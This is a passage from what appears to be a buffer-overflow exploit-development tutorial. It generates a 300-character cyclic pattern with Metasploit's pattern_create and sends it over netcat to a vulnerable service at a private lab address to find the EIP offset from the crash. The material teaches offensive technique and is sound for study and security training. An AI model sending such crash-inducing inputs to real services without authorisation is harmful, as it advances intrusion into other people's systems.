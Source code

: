 Let's generate a string pattern of 300 characters using a metasploit utility `pattern_create`:

```csharp
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```

![](../../../.gitbook/assets/image%20%28808%29.png)

Send that pattern to the vulnerable program:

```text
"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9" | nc 192.168.99.3 10000
```

...and observe the crash again:

![One step further to identifying the exact EIP offset](../../../.gitbook/assets/image%20%28823%29.png)
